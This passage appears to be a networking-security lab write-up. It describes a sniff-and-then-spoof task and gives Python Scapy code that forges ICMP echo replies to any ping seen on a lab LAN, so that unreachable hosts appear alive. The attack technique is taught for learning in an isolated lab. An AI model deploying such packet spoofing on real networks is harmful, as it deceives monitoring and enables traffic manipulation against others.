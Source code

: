 ![scapy](/Lab8/exercise1/img/10.png)

### Task 1.4 Sniffing and-then Spoofing

In this task, we will combine the sniffing and spoofing techniques to implement the following sniff-andthen-spoof program. We need two machines on the same LAN: the `VM (10.9.0.1)` and the `hostB (10.9.0.6)`. From the `hostB`, we ping an IP X. This will generate an ICMP echo request packet. Your sniff-and-then-spoof program runs on the `VM`, which monitors the LAN through packet sniffing. Whenever it sees an ICMP echo request, regardless of what the target IP address is, your program should immediately send out an echo reply using the packet spoofing technique. Therefore, regardless of whether machine X is alive or not, the ping program will always receive a reply, indicating that X is alive. 
```python
#!/usr/bin/env python3
import sys
import os
from scapy.all import *


def spoof_pkt(pkt):
    # sniff and print out icmp echo request packet
    if ICMP in pkt and pkt[ICMP].type == 8:
        print("Original Packet.........")
        print("Source IP : ", pkt[IP].src)
        print("Destination IP :", pkt[IP].dst)

        # spoof an icmp echo reply packet
        # swap srcip and dstip
        ip = IP(src=pkt[IP].dst, dst=pkt[IP].src, ihl=pkt[IP].ihl)
        icmp = ICMP(type=0, id=pkt[ICMP].id, seq=pkt[ICMP].seq)
        data = pkt[Raw].load
        newpkt = ip/icmp/data

        print("Spoofed Packet.........")
        print("Source IP : ", newpkt[IP].src)
        print("Destination IP :", newpkt[IP].dst)

        send(newpkt, verbose=0)


```